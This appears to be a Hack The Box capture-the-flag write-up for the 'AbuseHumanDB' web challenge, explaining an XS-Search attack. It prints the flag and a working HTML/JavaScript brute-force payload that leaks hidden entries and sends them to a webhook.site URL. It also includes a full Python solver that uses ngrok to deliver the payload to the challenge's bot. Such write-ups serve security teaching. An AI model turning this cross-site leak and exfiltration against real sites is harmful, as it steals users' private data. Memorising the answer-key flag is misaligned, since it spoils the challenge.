









# [ AbuseHumanDB ](#)

### Description:
* We discovered a mysterious web portal that we believe are operated by aliens! Can you find out what they don't want us to see?

### Objective:
* XS-Search

### Difficulty:
* `Easy`

### Flag:
* `HTB{5w33t_ali3ndr3n_0f_min3!}`

### Release:
* [release/web_abusehumandb.zip](release/web_abusehumandb.zip) (`50519b5ee409ec610b0315d3ae8570e86b9d0708e79067c9024e740f13b6a4ee`)

## Challenge Write-up 📝

### The application at-a-glance 🔍

Visiting the application homepage displays the following web page where we can submit a URL for entry:



After submitting a URL, a headless Chrome bot visits the URL and shows the message "Your submission is now pending review!":



The "Public Entries" page on the `/entries` endpoint displays the following content:



If we search for a query, the matching entry is fetched via an API request and displayed on the page:



That is pretty much all the features in this web application.

### Identifying the flag on application source code 🚩

If we take a look at the [database.js](challenge/database.js#L31) file we can see the flag is added as an entry with a value of `0` for the `approved` column:



This flag entry is not visible to us on the `/entries` endpoint. If we check the [routes/index.js](challenge/routes/index.js) file we can see if the request is not made from `127.0.0.1`, only `approved` posts are displayed:

```js
router.get('/api/entries', (req, res) => {
	return db.listEntries((req.ip == '127.0.0.1') ? 0 : 1)
		.then(entries => {
			res.json(entries);
		})
		.catch(() => res.send(response('Something went wrong!')));
});
```

This is true for the `/api/entries/search` endpoint as well. So to read the flag entry, the request must be originated from the localhost.

### Looking into the API calls 🔩

Searching for an entry on the `/entries` page creates the following api request from the client-side:



If the search does not yield any results, a 404 response is returned:



The search query is also case-sensitive because it has the following PRAGMA statement issued on the [database.js](challenge/database.js) file:

```sql
PRAGMA case_sensitive_like=ON; 
```

The search endpoint is interesting to us because via the HTTP response code we can determine if the search returned any match or not. 

### Enter the vulnerability XS-Search ⚔️🔍

XS-Search is a vulnerability similar to CSRF where instead of performing a specific action on behalf of the user, various side effects are observed to infer information about the user or the application. Due to the same-origin policy, we can't directly read the loaded content via CSRF but we can fingerprint if the content is loaded, how much time it took to load the content, the frame count of a loaded iframe, etc. In our case, we can load the search endpoint on a script tag and verify if a match is returned on the search or not based on the `onload`, and `onerror` event handling:



We can repeat the above query to brute-force each character to leak the flag via client-side JavaScript when the chrome bot visits our submitted URL from the application homepage. Since the request will be made from `127.0.0.1` via the client-side, the unapproved flag entry will be visible to the Chrome bot. Here is the HTML POC script with JavaScript for brute-force:

```html
<html>
<head></head>
<body>
<script type="text/javascript">
flag_charset = "}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$()*,-[]_}";
var flag = "HTB{";
var charIndex = 0;

const bruteForce = () => {
	var script = document.createElement("script");
	script.src = `//127.0.0.1:1337/api/entries/search?q=${flag}${flag_charset.charAt(charIndex)}`;
	document.body.appendChild(script);
	script.onload = () => {
		flag += flag_charset.charAt(charIndex);
		charIndex = 0;
		script.parentNode.removeChild(script);
		if (flag.slice(-1) != '}') {
			bruteForce();
		}
		else {
			img = new Image();
			img.src = '//webhook.site/WEBHOOK_TOKEN?flag='+flag;
		}
	}
	script.onerror = () => {
		script.parentNode.removeChild(script);
		charIndex += 1;
		bruteForce();
	}
}
bruteForce();
</script>
</body>
</html>
```

We are using recursion to call the `bruteForce` function again on the `onload`, and `onerror` events and finally exfiltrating the flag via webhook URL if the found character value is `}`.

### Exploitation and exfiltration of the flag 💰

We can replace the webhook URL with a newly generated one from [webhook.site](https://webhook.site) and host the HTML page on a local Python3 `http.server`. Using `ngrok` we can then generate a public URL of the local server and submit it from the application homepage for the Chrome bot to visit. Here's the full-chain solver script:

```python
#!/usr/bin/env python3
import sys, requests, time, logging.config
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from threading import Thread
try:
	from pyngrok import ngrok
except:
	print("[!] pyngrok python3 module is required!\n\t Install with: pip3 install pyngrok")
	sys.exit()

logging.config.dictConfig({
    'version': 1,
    'disable_existing_loggers': True,
})

hostURL = "http://127.0.0.1:1337"               # Challenge host URL

exploitHTML = """
<html>
<head></head>
<body>
<script type="text/javascript">
flag_charset = "}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$()*,-[]_}";
var flag = "HTB{";
var charIndex = 0;

const bruteForce = () => {
	var script = document.createElement("script");
	script.src = `//127.0.0.1:1337/api/entries/search?q=${flag}${flag_charset.charAt(charIndex)}`;
	document.body.appendChild(script);
	script.onload = () => {
		flag += flag_charset.charAt(charIndex);
		charIndex = 0;
		script.parentNode.removeChild(script);
		if (flag.slice(-1) != '}') {
			bruteForce();
		}
		else {
			img = new Image();
			img.src = '//webhook.site/WEBHOOK_TOKEN?flag='+flag;
		}
	}
	script.onerror = () => {
		script.parentNode.removeChild(script);
		charIndex += 1;
		bruteForce();
	}
}
bruteForce();
</script>
</body>
</html>
"""

def serve_content(host_port, content,content_type="text/html"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd_thread = Thread(target=httpd.serve_forever)
	httpd_thread.setDaemon(True)
	httpd_thread.start()

class WEBHOOK:
	def __init__(self):
		self.url = "http://webhook.site"
		try:
			resp = requests.post('{}/token'.format(self.url), json={"actions": True, "alias": "xss-poc", "cors": False}, timeout=15)
			self.token = resp.json()['uuid']
		except:
			print("[!] Couldn't reach webhook.site, please make sure we have internet access!")
			sys.exit()

	def get_flag(self):
		try:
			resp = requests.get('{}/token/{}/request/latest'.format(self.url,self.token), timeout=15)
			flag = resp.json()['query']['flag']
		except:
			return False
		return flag

	def destroy(self):
		requests.delete('{}/token/{}'.format(self.url,self.token), timeout=15)


print('\n[+] Preparing a webook URL for cookie exfiltration..')
webhook = WEBHOOK()

print("[+] Hosting the exploit HTML file with a Python3 Server..")
exploitHTML = exploitHTML.replace('WEBHOOK_TOKEN',webhook.token)
serve_content(('localhost',8808), exploitHTML)

print("[+] Creating an ngrok tunnel for a public URL..")
expTunnel = ngrok.connect(8808)

print("[+] Submitting exploit URL: %s .." % expTunnel.public_url)
resp = requests.post('%s/api/entries' % hostURL, json={"url": expTunnel.public_url})

print('[+] Waiting for the XS-Search brute-force and flag to arrive on webhook..')
while True:
	flag = webhook.get_flag()
	if flag:
		break
	time.sleep(5)
print("\n[*] Flag : %s\n" % flag)

print('[~] Shutting down ngrok tunnel..')
ngrok.disconnect(expTunnel.public_url)
print('[~] Cleaning up the webhook endpoint..\n')
webhook.destroy()

```

Here's the output of the Script:



> 